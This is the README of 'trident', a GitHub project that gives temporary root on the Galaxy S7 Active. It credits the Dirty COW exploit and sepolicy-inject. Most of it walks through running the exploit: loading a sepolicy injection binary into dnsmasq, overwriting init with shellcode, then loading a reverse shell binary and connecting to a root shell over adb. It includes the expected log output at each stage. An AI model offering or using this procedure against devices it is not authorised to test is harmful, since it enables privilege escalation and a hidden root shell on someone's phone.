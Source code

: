 ## trident
Temporary root for the galaxy s7 active. 

## How
 * Clone this project and either 
   * build (run `make`) and place a custom `sepolicy` file in the root of the project, or 
   * `tar xf` the [prebuilt binaries](https://github.com/freddierice/trident/blob/prebuilt/prebuilt.tar.gz?raw=true) in the root of the project.
 * Open a separate terminal window and run `make log` to see logged output.
 * Run `make run` to start the exploit. You should see 
```
[+] stager loading /data/local/tmp/load
[+] stager loaded /data/local/tmp/load. trigger by enabling wifi tethering
sepolicy injection binary loaded into dnsmasq. hit enter when completed.
```
 * On your phone, go to Settings > Connections > Mobile Hotspot and Tethering > Mobile Hotspot and turn it on. At this point, text should start appearing in the `make log` window. Wait until it is done: 
```
I trident : [+] load started
I trident : [+] overwriting init to terminate early
I trident : madvise: 0
I trident : proc: -1178599424
I trident : [+] overwriting init function with shellcode
I trident : madvise: 0
I trident : proc: -764411904
I trident : [+] overwriting init function with a nop
I trident : madvise: 0
I trident : proc: -1178599424
I trident : [+] load done!
```
 * Turn off the mobile hotspot. 
 * Hit enter in the `make run` window to continue: 
```
adb forward tcp:4040 tcp:4040
adb shell /data/local/tmp/stage /data/local/tmp/reverse
[+] stager loading /data/local/tmp/reverse
[+] stager loaded /data/local/tmp/reverse. trigger by enabling wifi tethering
reverse shell binary loaded into dnsmasq. run 'make connect' when completed
```
 * Turn the hotspot on and off again.
 * run `make connect`

You should now have a root shell! If any permissions issues come up, modify the sepolicy file with sepolicy-inject and upload the new version to `/data/local/tmp/sepolicy`. The new version should be loaded in a few seconds. These problems are easiest to debug with the command `adb logcat | grep -a avc`.

## Versions
This code has only been tested for the Galaxy S7 Active on the September security patch. To make this work on other versions, `INIT_OFFSET` in `farm.c` may need to be modified.

## Thanks
 * https://github.com/timwr/CVE-2016-5195
 * https://bitbucket.org/joshua_brindle/sepolicy-inject
